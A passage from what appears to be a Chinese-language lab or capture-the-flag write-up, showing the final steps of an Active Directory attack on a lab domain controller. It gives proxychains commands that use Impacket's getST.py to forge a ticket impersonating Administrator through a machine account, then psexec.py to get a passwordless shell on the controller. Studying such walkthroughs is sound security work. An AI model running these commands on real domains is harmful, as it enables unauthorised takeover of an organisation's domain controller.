接下来同之前一样，申请 ST，导入票据，无密码登录即可。

```bash
proxychains getST.py xiaorang.lab/'TEST2$':'P@ssw0rd' -spn cifs/XR-DC01.xiaorang.lab -impersonate Administrator -dc-ip 172.22.15.13
```

[![](assets/1707954847-b3e83afc213bd8dbfa50f63cd4b594b2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240209165559-0b9f3cd8-c729-1.png)

```bash
export KRB5CCNAME=Administrator@cifs_XR-DC01.xiaorang.lab@XIAORANG.LAB.ccache
proxychains python3 psexec.py Administrator@XR-DC01.xiaorang.lab -k -no-pass -dc-ip 172.22.15.13
```
